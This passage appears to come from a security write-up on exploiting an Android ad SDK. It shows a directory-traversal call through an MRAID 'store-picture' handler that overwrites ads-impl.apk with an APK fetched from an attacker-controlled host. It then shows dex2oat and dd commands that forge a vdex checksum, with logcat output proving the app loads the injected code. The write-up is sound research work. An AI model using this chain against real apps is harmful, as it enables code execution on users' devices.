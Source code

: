 ```java
            Log.e(str, "MRAID: unable to store picture", e);
            m682a(oVar, "MRAID_CALLBACK('store-picture', false)");
        }
    }
```

It writes the file `new File(new File(oVar.getContext().getExternalMediaDirs()[0], "mraid"), webResourceRequest.getUrl().getQueryParameter("name"))`.

We have directory traversal here. Using java new File(parent, file) is vulnerable to directory-traversal (java doesn't check that the final path is still under `parent`).  
So we can overwrite ads-impl.apk!

`await call(["store-picture.mraid", "url", "http://10.0.2.2:8888/our-ads-impl.apk", "name" ,"../../../../../../../data/user/0/com.example.app/app_ads/ads-impl.apk"])`

Next time that it will load an ad, it will check our apk and if it will be valid it will load it. But sadly once we will have our own .dex file in it, the loading will fail.

After looking at the source code of Android, the code that loads APK, one interesting mechanism is optimized dex/oat. Android can optimize .dex files which contains Dalvik bytecode into native code. If there is an optimized version of it, Android won't load the dex file inside the apk.

Using strace, I can see on my emulator that android look for /data/data/com.example.app/app_ads/oat/x86/ads-impl.vdex when it loads ads-impl.apk.

So what is vdex? When android optimizes the apk, it stores two files:  
classes.odex: OAT containing native code  
classes.vdex: VDEX file containing copy of original DEX files  

If an APK is inside a writeable directory (like in our case), Android will look for them in the relative path oat/arch/apk-name.odex/vdex   
We can generate those files using dex2oat (running on the device):
```sh
/system/bin/dex2oat --dex-file=my-app.apk --instruction-set=x86 --oat-file=/data/user/0/com.example.app/app_ads/oat/x86/ads-impl.odex
```

If we try to load an ad now, we can see this message in logcat:
```
2020-08-23 11:37:01.460 10794-10794/com.example.app W/com.example.app: type=1400 audit(0.0:81): avc: granted { execute } for path="/data/data/com.example.app/app_ads/oat/x86/ads-impl.odex" dev="vdc" ino=29876 scontext=u:r:untrusted_app:s0:c133,c256,c512,c768 
2020-08-23 11:37:01.480 10794-10794/com.example.app W/com.example.app: Dex checksum does not match for dex: /data/user/0/com.example.app/app_ads/ads-impl.apk.Expected: 1462935262, actual: 1840786672
```

So the checksum doesn't match, if I search for 1840786672 in the ads-impl.vdex, I can find it in offset 28, so let's change the checksum:
```sh
printf '\xDE\x9E\x32\x57' | dd of=/data/user/0/com.example.app/app_ads/oat/x86_64/ads-impl.vdex bs=1 seek=28 count=4 conv=notrunc
```
And run this again:
```
2020-08-23 11:39:01.958 10794-10794/com.example.app I/ExampleApp: Detected updated to impl, updating!!!
2020-08-23 11:39:01.960 10794-10794/com.example.app W/com.example.app: type=1400 audit(0.0:81): avc: granted { execute } for path="/data/data/com.example.app/app_ads/oat/x86/ads-impl.odex" dev="vdc" ino=29876 scontext=u:r:untrusted_app:s0:c133,c256,c512,c768 tcontext=u:object_r:app_data_file:s0 tclass=file app=com.example.app
2020-08-23 11:39:01.965 10794-10794/com.example.app E/ExampleApp: Cannot load class: com.ads.sdk.impl.AdFactoryImpl
    java.lang.ClassNotFoundException: Didn't find class "com.ads.sdk.impl.AdFactoryImpl" on path: DexPathList[[zip file "/data/user/0/com.example.app/app_ads/ads-impl.apk"],nativeLibraryDirectories=[/system/lib, /system/product/lib]]
    ....
```
That is good! It tries to load our dex.